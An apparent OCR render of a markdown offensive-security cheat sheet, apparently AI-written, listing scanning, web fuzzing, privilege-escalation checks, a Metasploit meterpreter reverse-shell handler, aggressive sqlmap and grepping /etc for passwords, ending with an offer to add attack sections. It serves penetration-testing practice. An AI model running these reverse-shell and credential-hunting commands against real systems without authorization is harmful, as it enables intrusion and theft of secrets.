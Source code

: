 # Offensive Security Cheatsheet 🚀

*"Knowledge is power. Share it wisely." - Unknown*

## 🔍 Scanning & Enumeration

### Nmap

```# Basic TCP scan
nmap -sV -sC -oA scan_results <TARGET_IP>```


Masscan

```# Blazing fast scan
masscan -p1-65535 <TARGET_IP> --rate=1000 -e tun0```


🕵️‍♂️ Web Enumeration

FFUF (Web Fuzzing)

```# Directory brute-forcing
ffuf -w /path/to/wordlist -u http://<TARGET>/FUZZ -mc 200 -fs 4242```

```# Vhost discovery
ffuf -w subdomains.txt -u http://<TARGET> -H "Host: FUZZ.<TARGET>" -fs 0```

Gobuster

```gobuster dir -u http://<TARGET> -w /usr/share/wordlists/dirb/common.txt -x php,html```


🔑 Privilege Escalation
Linux PrivEsc

bash
```# SUID finder
find / -perm -4000 -type f 2>/dev/null```

```# Kernel exploits
uname -a; searchsploit <kernel_version>```

Windows PrivEsc

powershell
```# Service permissions
accesschk.exe /accepteula -uwcqv *```

```# AlwaysInstallElevated check
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated```


🛠️ Exploitation


Metasploit
bash
# Basic workflow
msfconsole
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST <YOUR_IP>
exploit
SQL Injection
bash
sqlmap -u "http://site.com/page?id=1" --risk=3 --level=5 --batch
📦 Post-Exploitation
File Transfers
bash
# Python HTTP server
python3 -m http.server 8000

# SCP download
scp user@target:/path/to/file .
Credential Hunting
bash
# Find passwords in files
grep -riE 'password|passwd|cred' /etc/ 2>/dev/null
📚 Resources
GTFOBins

PayloadsAllTheThings

HackTricks

text

### Features:
1. **Clean Markdown Formatting** - Easy to read and maintain
2. **Emoji Visual Categorization** - Quick navigation
3. **Practical Examples** - Real-world command usage
4. **Key Parameters Explained** - No guessing what flags do
5. **Expandable Structure** - Add new sections easily

### How to Use:
1. Save as `cheatsheet.md` in your repo
2. Update regularly with new commands
3. Use GitHub's preview feature to view formatting

Would you like me to add any specific tools or categories? I can include sections for:
- Active Directory attacks
- Cloud security
- Binary exploitation
- Mobile app testing

```   ```

```   ```

```   ```
